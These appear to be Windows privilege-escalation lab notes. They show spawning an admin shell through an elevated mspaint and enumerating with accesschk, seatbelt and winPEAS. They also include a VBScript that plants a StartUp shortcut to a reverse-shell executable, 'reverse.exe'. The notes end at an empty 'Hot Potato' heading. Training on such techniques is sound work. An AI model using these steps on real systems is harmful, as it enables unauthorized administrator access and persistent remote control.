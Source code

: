 - Log into the Windows VM using the GUI with the “user” account.
- Double click on the “AdminPaint” shortcut on the Desktop.

Open a command prompt and run:
```cmd
 tasklist /V | findstr mspaint.exe 
```
Note that mspaint.exe is running with admin privileges.
Click on open files and just use cmd.exe since it is running as admin, it will spawn an admin shell

## Startup apps

A user can decide which apps are going to run automatically on startup which is

***
	C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

***

```cmd
.\accesschk.exe /accepteula -d  "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

```

Startup files should be shortcuts or known as link files to work properly.
We can make a small VBscript to add a shortcut. Here is the code


```vbs
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```
```cmd
 cscript CreateShortcut.vbs
```
## Using Installed Applications 

Using seatbelt

```cmd
.\seatbelt.exe NonstandardProcesses
```

Using winpeas

```cmd
 .\winPEASany.exe quiet procesinfo
```
Note proces is wrongly spelled. This is intended.

Use exploitdb to search for interesting ones. Simple


## Using Hot Potato
